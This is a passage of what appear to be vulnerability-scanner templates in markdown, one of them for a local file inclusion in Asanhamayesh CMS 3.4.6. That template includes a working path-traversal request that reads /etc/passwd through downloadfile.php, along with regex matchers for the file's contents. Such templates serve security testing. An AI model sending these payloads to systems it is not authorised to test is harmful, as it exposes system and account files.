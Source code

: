 ### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
  2. app.listen
- part - body
- condition - or

**Type - status**

- status
  1. 200

---

# Asanhamayesh CMS 3.4.6 - Local File Inclusion

## Description

- Asanhamayesh CMS 3.4.6 is vulnerable to local file inclusion.
- severity - high
- tags - asanhamayesh,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/downloadfile.php?file=../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Global Domains International - Local File Inclusion

## Description
